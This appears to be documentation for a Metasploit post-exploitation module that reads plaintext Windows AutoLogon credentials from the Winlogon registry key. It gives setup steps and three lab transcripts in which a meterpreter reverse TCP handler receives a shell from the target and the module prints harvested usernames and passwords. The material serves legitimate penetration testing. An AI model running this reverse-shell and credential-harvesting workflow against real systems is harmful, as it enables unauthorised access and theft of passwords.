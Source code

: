 ## Vulnerable Application

This module reads the registry keys associated with Microsoft Window's AutoLogin feature which keeps a
plaintext version of the password in the registry.

To turn on Windows Autologin feature, follow the instructions from
[Microsoft](https://support.microsoft.com/en-us/help/324737/how-to-turn-on-automatic-logon-in-windows).

1. Open registry editor (`regedit`) and navigate to: `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`
1. Create the following `String Value`s
  1. `AutoAdminLogin` set to `1`
  1. `DefaultUserName` set to the username
  1. `DefaultPassword` set to the password
  1. Optional: `DefaultDomain` set to the domain

## Verification Steps

1. Configure autologin
1. Start msfconsole
1. get a shell on a vulnerable windows computer
1. Do: `use post/windows/gather/credentials/windows_autologin`
1. Do: `set session [#]`
1. Do: `run`
1. You should receive credentials.

## Options

## Scenarios

### Windows 2008 R2 (64-bit)

```
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 10.0.2.4
lhost => 10.0.2.4
msf exploit(handler) > run

[*] Started reverse TCP handler on 10.0.2.4:4444 
[*] Starting the payload handler...
[*] Sending stage (1188415 bytes) to 10.0.2.11
[*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.11:49262) at 2017-07-22 11:59:22 -0500

meterpreter > background
[*] Backgrounding session 1...
msf exploit(handler) > use post/windows/gather/credentials/windows_autologin 
msf post(windows_autologin) > set session 1
session => 1
msf post(windows_autologin) > run

[*] Running against WIN-QPZJFHIS6PT on session 1
[+] AutoAdminLogon=1, DefaultDomain=mydomain, DefaultUser=Administrator, DefaultPassword=p@ssw0rd
[*] Post module execution completed
```

### Windows 2003

```
msf6 post(windows/gather/credentials/windows_autologin) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > sysinfo
Computer        : WIN2003
OS              : Windows .NET Server (5.2 Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 3...
msf6 post(windows/gather/credentials/windows_autologin) > run

[*] Running against WIN2003 on session 3
[+] AutoAdminLogon=, DefaultDomain=WIN2003, DefaultUser=Administrator, DefaultPassword=TestPassword
[*] Post module execution completed
```

### Windows 7 (32-bit)

```
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 10.0.2.4
lhost => 10.0.2.4
msf exploit(handler) > run

[*] Started reverse TCP handler on 10.0.2.4:4444 
[*] Starting the payload handler...
[*] Sending stage (956991 bytes) to 10.0.2.47
[*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.47:49215) at 2017-07-23 11:33:53 -0500

meterpreter > background
[*] Backgrounding session 1...
msf exploit(handler) > use post/windows/gather/credentials/windows_autologin 
msf post(windows_autologin) > set session 1
session => 1
msf post(windows_autologin) > run

[*] Running against IE8WIN7 on session 1
[+] AutoAdminLogon=1, DefaultDomain=IE8WIN7, DefaultUser=IEUser, DefaultPassword=
[*] Post module execution completed
```
